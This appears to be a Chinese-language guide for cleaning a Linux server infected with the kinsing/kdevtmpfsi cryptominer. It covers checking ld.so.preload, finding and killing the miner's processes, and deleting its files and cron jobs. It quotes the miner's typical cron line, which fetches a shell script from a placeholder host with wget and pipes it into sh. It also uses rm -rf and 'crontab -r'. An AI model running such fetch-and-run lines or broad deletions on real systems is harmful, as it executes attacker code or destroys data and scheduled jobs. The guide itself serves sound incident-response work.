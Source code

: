 > **查看隐藏病毒进程的linux配置文件**

```
ls /etc/ld.so.preload
```

查看恶意配置文件`ld.so.preload`是否存在

> **删除隐藏病毒进程的linux配置文件**

```
rm -rf /etc/ld.so.preload
```

若恶意配置文件`ld.so.preload`存在，删除此文件

> **查看CPU**

```
top
```

查看是否存在挖矿病毒`kdevtmpfsi`和`kinsing`，有则说明服务器中毒

> ** 查看病毒进程**

```
ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi
```

查看是否存在挖矿病毒`kdevtmpfsi`和`kinsing`，有则说明服务器中毒

> **查找病毒文件**

```
find / -name "kdevtmpfsi"

find / -name "kinsing"
```

获取病毒文件所在目录

> **进入病毒文件所在目录删除病毒文件**

```
rm -rf /tmp/kdevtmpfsi

rm -rf /var/tmp/kdevtmpfsi

rm -rf /etc/kinsing
```

请按实际情况病毒所在的位置删除

> **删除病毒进程**

```
ps -aux | grep kdevtmpfsi |grep -v grep|cut -c 9-15 | xargs kill -9

ps -aux | grep kinsing |grep -v grep|cut -c 9-15 | xargs kill -9
```

> **查看定时任务**

```
crontab –l
```

若存在类似`/bin/sh -c wget -q -O - http://xxx.xxx.xxx.xxx/xxx.sh | sh > /dev/null 2>&1`（一般为黑客定时任务）的定时任务，请删除此定时任务

> **删除定时任务**

```
crontab –r
```

请在不影响业务正常运行的情况下，按实际情况删除

> **最终排查**

```
crontab –l

ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi

find / -name "kinsing"

find / -name " kdevtmpfsi "
```

若上述命令都没有病毒相关信息，则说明病毒删除完成
